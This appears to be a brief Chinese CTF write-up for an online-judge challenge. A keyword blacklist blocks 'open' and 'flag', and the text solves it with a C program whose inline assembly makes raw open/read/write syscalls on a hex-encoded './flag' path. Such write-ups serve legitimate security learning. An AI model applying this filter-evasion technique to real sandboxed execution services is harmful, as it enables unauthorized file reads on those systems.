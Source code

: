# Or4ngeOJ&Revenge
## 题目描述
没有附件，打开网页是一个OJ，由于某些因素没有放上一道OJ题目（逃

提示flag位置，同时发现无法执行system，直接orw读取flag即可。

Revenge查看源码发现提示有黑名单，测试发现ban了open,flag等字符串，这里就有很多种做法如文件包含、写汇编ORW等。

## 一个可行的poc
```c
#include <stdio.h>
 
int exp()
{
    asm("sub $100, %rsp");    
    asm("xor %rdi, %rdi");
    asm("xor %rdx, %rdx");
    asm("xor %rax, %rax");
    asm("xor %rsi, %rsi");
    asm("movq $0x67616c662f2e,%rdi");
    asm("pushq %rdi");       
    asm("movq %rsp,%rdi");
    asm("movq $2,%rax");
    asm("syscall");  
    asm("nop");
    asm("pushq $0x60");
    asm("popq %rdx");
    asm("movq %rax, %rdi");
    asm("movq %rsp, %rsi");
    asm("movq $0, %rax");
    asm("syscall");
    asm("nop");
    asm("movq $1, %rdi");
    asm("movq $1, %rax");
    asm("syscall");
    asm("nop");
    asm("movq $60, %rax");  
    asm("movq $0, %rdi");    
    asm("syscall");
}
 
int main()
{
    exp();
    return 0;
}

```
